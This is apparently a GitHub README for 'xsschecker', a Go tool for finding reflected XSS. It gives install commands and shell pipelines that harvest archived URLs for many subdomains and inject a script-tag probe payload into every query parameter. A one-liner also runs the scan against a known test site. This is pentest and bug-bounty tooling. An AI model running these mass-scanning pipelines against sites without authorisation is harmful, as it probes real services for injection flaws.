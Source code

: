 ```
██╗  ██╗███████╗███████╗ ██████╗██╗  ██╗███████╗ ██████╗██╗  ██╗███████╗██████╗ 
╚██╗██╔╝██╔════╝██╔════╝██╔════╝██║  ██║██╔════╝██╔════╝██║ ██╔╝██╔════╝██╔══██╗
 ╚███╔╝ ███████╗███████╗██║     ███████║█████╗  ██║     █████╔╝ █████╗  ██████╔╝
 ██╔██╗ ╚════██║╚════██║██║     ██╔══██║██╔══╝  ██║     ██╔═██╗ ██╔══╝  ██╔══██╗
██╔╝ ██╗███████║███████║╚██████╗██║  ██║███████╗╚██████╗██║  ██╗███████╗██║  ██║
╚═╝  ╚═╝╚══════╝╚══════╝ ╚═════╝╚═╝  ╚═╝╚══════╝ ╚═════╝╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
```

<h3 align="center">xsschecker tool checking reflected endpoints finding possible xss vulnerable endpoints.</h3>

## Install
```
go install github.com/rix4uni/xsschecker@latest
```
or

```
git clone https://github.com/rix4uni/xsschecker.git && cd xsschecker && go build xsschecker.go && mv xsschecker /usr/bin/
```
## Usage
```
go run xsschecker.go -h
Usage: xsschecker [OPTIONS]

Options:
  -match string
        The string to match against the domain response. (required)
  -vuln
        If set, only vulnerable URLs will be printed.
```

## Reflected XSS Mass Automation
```
cat subs.txt | waybackurls >> waybackurls-urls.txt
cat subs.txt | gau >> gau-urls.txt
cat waybackurls-urls.txt gau-urls.txt | anew -q urls.txt

cat urls.txt | uro | gf allparam | grep "=" | gf blacklist | qsreplace '"><script>confirm(1)</script>' | xsschecker -match '"><script>confirm(1)</script>'
```

## Reflected XSS Oneliner
```
echo "testphp.vulnweb.com" | waybackurls | gf xss | uro | qsreplace '"><script>confirm(1)</script>' | xsschecker -match '"><script>confirm(1)</script>'
```
